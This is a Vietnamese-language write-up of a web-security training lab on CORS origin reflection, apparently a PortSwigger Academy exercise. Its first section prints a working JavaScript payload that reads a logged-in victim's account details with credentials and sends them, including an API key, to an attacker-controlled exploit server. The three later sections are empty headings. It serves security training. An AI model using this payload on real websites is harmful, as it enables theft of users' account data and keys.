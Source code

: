 # 1. CORS vulnerability with basic origin reflection
Ta thấy khi gửi request `GET /accountDetails`, trong response sẽ chứa thông tin đầy đủ về user trong phiên hiện tại. Như vậy ta vào exploit server và cấu hình đoạn code sau:

```
<script>
let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a9f008704a74bedc06f45ff00f600cd.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
fetch('https://exploit-0ab7003c04f14b63c07644d50138000b.exploit-server.net/exploit?apiKey='+this.responseText);
}
</script>
```
Đoạn script trên sẽ gửi request đến `/accountDetails`, lấy ra response rồi đặt làm tham số trong request gửi tới exploit server mà ta kiểm soát.

Sau khi click "Deliver to victim", vào Access log ta thấy có một request với tham số apiKey là một object:

![image](https://user-images.githubusercontent.com/103978452/210699785-c2fc9ed4-50fa-4d0c-82cd-3424d39d6f3b.png)

Thực hiện URL decode, rồi lấy giá trị của trường "apikey" để submit, kết quả thành công.

# 2. CORS vulnerability with trusted null origin

# 3. CORS vulnerability with trusted insecure protocols

# 4. CORS vulnerability with internal network pivot attackCORS vulnerability with internal network pivot attack
